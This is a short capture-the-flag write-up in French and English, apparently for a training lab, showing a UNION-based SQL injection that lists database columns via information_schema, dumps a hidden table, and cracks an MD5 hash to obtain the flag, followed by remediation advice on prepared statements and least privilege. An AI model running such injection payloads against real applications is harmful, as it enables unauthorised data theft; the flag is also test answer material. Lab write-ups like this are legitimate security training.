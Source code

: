 # Reproduction :

1. **Lister toutes les colonnes avec leurs tables associées** :  
   ```sql
   1 UNION SELECT table_name, column_name FROM information_schema.columns;
   ```
   **Résultat qui nous intéresse** :  
   - **Table** : `list_images`  
   - **Colonne** : `comment`  

2. **Afficher les contenus de la colonne `comment` dans la table `list_images`** :  
   ```sql
   1 UNION SELECT title, comment FROM list_images;
   ```
   **Résultat intriguant** :  
   - **Title** : *"If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"*  
   - **Comment** : *Hack me ?*

3. **Décodage du flag** :  
   - MD5 décrypté : `albatroz`  
   - En minuscule : `albatroz`  
   - SHA-256 : `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

# Problème :

L'application est vulnérable à une injection SQL, permettant :
1. De lister toutes les tables et colonnes.
2. D'explorer et afficher des données sensibles présentes dans ces tables.

---

# Solution :
1. **Requêtes préparées** :  
   Utiliser des paramètres pour empêcher l’exécution directe des entrées utilisateur, exemple en PHP :  
   ```php
   $stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
   $stmt->bindParam(':id', $id, PDO::PARAM_INT);
   $stmt->execute();
   ```  

2. **Validation des entrées** :  
   Toujours filtrer les entrées pour éviter l’exécution de commandes SQL.  

3. **Privilèges limités** :  
   L’utilisateur de la base ne doit pas avoir accès à des données comme `information_schema`.  

Avec ces corrections, on bloque ce type d’attaque.

-------------------------
-------------------------
-------------------------
-------------------------

# Reproduction:

1. **List all columns with their associated tables**:  
   ```sql
   1 UNION SELECT table_name, column_name FROM information_schema.columns;
   ```
   **Result of interest**:  
   - **Table**: `list_images`  
   - **Column**: `comment`  

2. **Display the contents of the `comment` column in the `list_images` table**:  
   ```sql
   1 UNION SELECT title, comment FROM list_images;
   ```
   **Intriguing result**:  
   - **Title**: *"If you read this just use this md5 decode lowercase then sha256 to win this flag ! : 1928e8083cf461a51303633093573c46"*  
   - **Comment**: *Hack me ?*

3. **Decoding the flag**:  
   - Decrypted MD5: `albatroz`  
   - Lowercase: `albatroz`  
   - SHA-256: `f2a29020ef3132e01dd61df97fd33ec8d7fcd1388cc9601e7db691d17d4d6188`

---

# Problem:

The application is vulnerable to SQL injection, allowing:
1. Listing all tables and columns.
2. Exploring and displaying sensitive data present in these tables.

---

# Solution:
1. **Prepared statements**:  
   Use parameters to prevent direct execution of user inputs, for example in PHP:  
   ```php
   $stmt = $pdo->prepare("SELECT * FROM users WHERE id = :id");
   $stmt->bindParam(':id', $id, PDO::PARAM_INT);
   $stmt->execute();
   ```  

2. **Input validation**:  
   Always filter inputs to prevent the execution of SQL commands.  

3. **Limited privileges**:  
   The database user should not have access to sensitive data such as `information_schema`.  

With these corrections, we can block this type of attack.